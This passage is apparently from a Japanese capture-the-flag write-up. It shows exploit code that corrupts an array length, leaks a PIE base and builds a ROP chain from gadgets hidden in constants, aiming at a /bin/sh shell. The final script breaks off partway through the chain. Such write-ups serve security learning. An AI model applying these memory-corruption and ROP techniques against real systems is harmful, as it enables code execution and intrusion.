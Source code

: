 ```python
def main():
    exp()

def gadgets():
    rdx = 0xc35a            # pop rdx;ret
    rax = 0xc358            # pop rax;ret
    rdi = 0xc35f            # pop rdi;ret
    rsi = 0xc35e            # pop rsi;ret
    syscall = 0xc3050f      # syacall;ret    

def gen_array(size):
    x = array(size)
    return x

def exp():
    a0 = gen_array(10)
    a1 = gen_array(3)
    a1_header = a0[6]
    a1_header += 0xbeef
    a0[6] = a1_header
    pie = a1[18] - 0x1009
    rdi = pie + 0x0000101f
    rsi = pie + 0x00001027
    rdx = pie + 0x0000100f
    rax = pie + 0x00001017
    syscall = pie + 0x0000102f
    a1[18] = 0xdead
```

ripが0xdeadで止まれば成功です。あとはROPを作るだけです。`push`命令で4バイトより大きい値を入れられないため、`/bin/sh\x00`の文字列を作るのに一工夫いります。工夫の仕方を知らないのでreadを使いましたが、普通に計算できるようです。ありがとう想定解。最後は以下のようなコードになりました。スタックへのポインタを`a0[5]`から取ってきて、配列長を変更して用済みになった変数`a1_header`を、文字列の格納先を指すポインタにしました。

```python
def main():
    exp()

def gadgets():
    rdx = 0xc35a            # pop rdx;ret
    rax = 0xc358            # pop rax;ret
    rdi = 0xc35f            # pop rdi;ret
    rsi = 0xc35e            # pop rsi;ret
    syscall = 0xc3050f      # syacall;ret    

def gen_array(size):
    x = array(size)
    return x

def exp():
    a0 = gen_array(10)
    a1 = gen_array(3)
    a1_header = a0[6]
    a1_header += 0xbeef
    a0[6] = a1_header
    pie = a1[18] - 0x1009
    rdi = pie + 0x00001036
    rsi = pie + 0x0000103e
    rdx = pie + 0x00001026
    rax = pie + 0x0000102e
    syscall = pie + 0x00001046
    
    a1_header = a0[5]
    a1[18+0] = rdi
    a1[18+1] = 0
```